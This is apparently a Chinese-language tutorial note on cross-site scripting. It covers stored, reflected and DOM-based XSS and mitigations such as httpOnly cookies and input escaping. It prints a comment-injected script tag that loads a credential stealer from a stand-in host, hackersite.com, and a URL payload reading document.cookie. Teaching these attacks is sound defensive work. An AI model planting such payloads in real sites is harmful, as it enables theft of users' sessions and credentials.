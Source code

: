 # XSS
XSS(Cross-Site- Scripting)跨站脚本攻击
> 具备窃取cookie的能力

> 本质：**信任网页A -> 不知情跳转 -> 未知网页B -> 恶意操作 -> 窃取A站的用户信息**
## 存储型XSS(持久化攻击)
危害性最大，恶意脚本直接注入应用。
### 示例
1. 攻击者发现网站漏洞(一般是评论区等内容填写的位置)
2. 通过漏洞插入插入恶意脚本
```
这是评论<script src=”http://hackersite.com/authstealer.js”></script>
```
3. 每次用户访问就会执行该恶意脚本，用户信息被窃取
> 和反射型的区别主要是存储型的恶意代码存在数据库里，反射型的恶意代码可能存储在URL里
## 反射型XSS(非持久化攻击)
将恶意脚本嵌入应用中，用户访问才会激活。
### 示例
1. 访问正常链接
```
http://normal.com?name=louis
```
2. 访问含有恶意代码的链接
```
http://normal.com?name=<script>alert(document.cookie)</script>
```
## DOM based XSS
> 区分DOM based XSS不再是通过存储位置不同来区分
就是通过JS将恶意脚本输出到HTML上，一般是通过`document.write`或者`innerHTML`
## 措施
1. 设置httpOnly，防止客户端通过`document.cookie`访问cookie
2. 不使用`eval`和`new Function`执行未知代码
3. 对输入内容进行转译

## 训练
[XSS训练](https://alf.nu/alert1)

# 参考
[XSS](https://www.imperva.com/learn/application-security/cross-site-scripting-xss-attacks/)